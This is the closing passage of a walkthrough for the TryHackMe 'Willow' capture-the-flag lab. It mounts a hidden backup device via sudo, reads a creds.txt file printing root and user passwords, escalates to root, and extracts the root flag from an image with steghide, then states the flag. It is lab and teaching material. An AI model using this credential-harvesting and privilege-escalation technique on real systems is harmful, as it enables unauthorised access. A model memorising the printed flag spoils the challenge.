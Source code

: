 ~~~
willow@willow-tree:~$ mkdir backup
willow@willow-tree:~$ sudo /bin/mount /dev/hidden_backup backup/
willow@willow-tree:~$ ls -la backup
total 6
drwxr-xr-x  2 root   root   1024 Jan 30  2020 .
drwxr-xr-x 17 willow willow 4096 Nov  2 12:32 ..
-rw-r--r--  1 root   root     42 Jan 30  2020 creds.txt
willow@willow-tree:~$ cat backup/creds.txt 
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
~~~

Great! We have the password for `root` and user `willow`:
* root:7QvbvBTvwPspUK
* willow:U0ZZJLGYhNAT2s

## Root flag (not real)

Now we can switch to root and head to `/root` and read the "root flag":

~~~
willow@willow-tree:~$ su root
Password: 
root@willow-tree:/home/willow# cd /root
root@willow-tree:~# ls
root.txt
root@willow-tree:~# cat root.txt 
This would be too easy, don't you think? I actually gave you the root flag some time ago.
You've got my password now -- go find your flag!
~~~

## Root flag

Nice! We have been bamboozled! I know exactly what it means. `user.jpg` is where the root flag is. You can extract the root flag from the image using `steghide` and root's password:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ steghide extract -sf user.jpg
Enter passphrase: 
wrote extracted data to "root.txt".
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ cat root.txt  
THM{find_a_red_rose_on_the_grave}
~~~

Root flag: `THM{find_a_red_rose_on_the_grave}`

# D0N3! ; )

Thanks to the creator(s) for being creative! : )

Hope you had fun and learned something!

Have a g00d one! : )